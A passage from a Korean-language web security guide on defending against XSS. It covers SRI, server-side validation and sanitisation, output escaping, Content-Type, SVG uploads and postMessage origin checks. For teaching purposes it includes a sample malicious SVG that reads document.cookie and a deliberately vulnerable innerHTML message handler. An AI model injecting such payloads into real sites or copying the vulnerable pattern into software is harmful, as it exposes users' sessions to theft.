<script src="https://cdn.example.com/library@latest/library.js" integrity="..."></script>

<!-- 안전 — 특정 버전 고정 -->
<script src="https://cdn.example.com/library@3.6.0/library.js" integrity="..."></script>
```

번들러로 빌드하는 SPA의 경우 빌드 시점에 자동으로 SRI 해시를 생성하는 플러그인을 쓴다. webpack은 `webpack-subresource-integrity`, Vite는 `vite-plugin-sri`가 있다. 정적 HTML을 직접 작성하는 경우 CI에서 해시를 생성해 HTML에 주입한다.

CDN 변조 외에 SRI가 막아주는 시나리오:

- CDN 운영자의 악의적 행위
- DNS 하이재킹으로 CDN 도메인이 다른 IP로 연결되는 경우
- HTTP fallback 또는 잘못된 TLS 설정으로 인한 중간자 공격

SRI는 자기 도메인의 정적 파일에는 별 의미가 없다. 같은 출처 파일이 변조되었다면 이미 그 출처의 통제력을 잃은 상태다. 외부 CDN이나 서드파티 호스팅 스크립트에만 적용한다.

---

## 서버 사이드 방어

클라이언트 방어만으로는 부족하다. 서버에서도 입력값을 검증하고 출력 시 이스케이프해야 한다.

### 입력 검증

```java
// Spring에서 입력값 검증
@PostMapping("/api/comments")
public ResponseEntity<?> createComment(@Valid @RequestBody CommentRequest request) {
    // Bean Validation으로 길이, 형식 제한
    commentService.create(request);
    return ResponseEntity.ok().build();
}

public class CommentRequest {
    @NotBlank
    @Size(max = 5000)
    @Pattern(regexp = "^[^<>]*$", message = "HTML 태그를 포함할 수 없습니다")
    private String content;
}
```

HTML을 허용해야 하는 경우(위지윅 에디터) 서버에서 sanitize한다:

```java
// Java에서 OWASP Java HTML Sanitizer 사용
import org.owasp.html.PolicyFactory;
import org.owasp.html.Sanitizers;

PolicyFactory policy = Sanitizers.FORMATTING
    .and(Sanitizers.LINKS)
    .and(Sanitizers.BLOCKS);

String safeHtml = policy.sanitize(userInput);
// <script>, <iframe>, 이벤트 핸들러 등이 제거됨
```

### 출력 이스케이프

입력을 아무리 잘 검증해도, 출력 시 이스케이프를 빼먹으면 XSS가 발생한다. 입력 검증과 출력 이스케이프는 별개의 방어 계층이다.

출력 컨텍스트에 따라 이스케이프 방식이 다르다:

| 컨텍스트 | 이스케이프 대상 | 예시 |
|----------|----------------|------|
| HTML 본문 | `<`, `>`, `&`, `"`, `'` | `<p>사용자 이름</p>` |
| HTML 속성 | 위 + 공백, `/` | `<input value="사용자입력">` |
| JavaScript 문자열 | `\`, `'`, `"`, 줄바꿈 | `var name = '사용자입력';` |
| URL 파라미터 | URL 인코딩 | `?q=사용자입력` |

컨텍스트를 잘못 적용하면 이스케이프가 무력화된다. HTML 이스케이프만 적용한 값을 JavaScript 문자열에 넣으면 XSS가 발생할 수 있다.

---

## 실무에서 자주 놓치는 부분

### JSON 응답에서의 XSS

API가 JSON을 반환하더라도 Content-Type이 잘못 설정되면 브라우저가 HTML로 해석한다.

```java
// Content-Type이 없거나 text/html이면 위험하다
// 반드시 application/json으로 설정한다
@GetMapping(value = "/api/data", produces = MediaType.APPLICATION_JSON_VALUE)
public ResponseEntity<Map<String, String>> getData() {
    // Spring의 @RestController는 기본적으로 application/json을 사용한다
    // 직접 ResponseEntity를 만들 때 Content-Type을 명시하는 습관을 갖는다
    return ResponseEntity.ok()
        .contentType(MediaType.APPLICATION_JSON)
        .body(data);
}
```

### 파일 업로드를 통한 XSS

SVG 파일은 내부에 JavaScript를 포함할 수 있다. 사용자가 업로드한 SVG를 그대로 서빙하면 XSS가 발생한다.

```xml
<!-- 악성 SVG 파일 -->
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(document.cookie)</script>
</svg>
```

대응 방법:

- 업로드된 이미지를 서빙할 때 `Content-Disposition: attachment` 헤더를 추가한다
- SVG 업로드를 허용해야 하면 SVG 내의 스크립트 태그와 이벤트 핸들러를 제거한다
- 업로드 파일을 별도 도메인(CDN)에서 서빙한다. 쿠키가 공유되지 않으므로 세션 탈취가 불가능하다

### postMessage를 통한 XSS

iframe 간 통신에 `postMessage`를 사용할 때 origin 검증을 빠뜨리면 외부에서 악성 메시지를 보낼 수 있다.

```javascript
// 취약한 코드 — origin 검증 없음
window.addEventListener('message', (event) => {
    document.getElementById('output').innerHTML = event.data;
});

// 안전한 코드 — origin 검증
window.addEventListener('message', (event) => {
    if (event.origin !== 'https://trusted.example.com') {
        return;
    }
    document.getElementById('output').textContent = event.data;
});
```

---

## XSS 방어 요약

서버와 클라이언트 양쪽에서 방어해야 한다. 한쪽만 하면 반드시 뚫리는 경로가 생긴다.

| 계층 | 방어 수단 |
|------|----------|
| 서버 입력 | 입력값 검증, 길이 제한, HTML sanitize (OWASP Java HTML Sanitizer) |
| 서버 출력 | 템플릿 엔진의 자동 이스케이프 사용 (`th:text`, JSTL `c:out`) |
| 프레임워크 | React 자동 이스케이프, Vue `v-html`/Angular `bypassSecurityTrust*` 차단, sanitize 시 DOMPurify (TrustedTypes 옵션) |
| 브라우저 | Trusted Types로 위험 싱크 차단, CSP `nonce`/`hash`/`strict-dynamic`, 외부 스크립트에 SRI 적용 |
| HTTP 헤더 | CSP, `X-Content-Type-Options: nosniff`, 쿠키에 HttpOnly/Secure/SameSite |
| 모니터링 | CSP report-uri, Trusted Types report-only, WAF 로그 분석 |
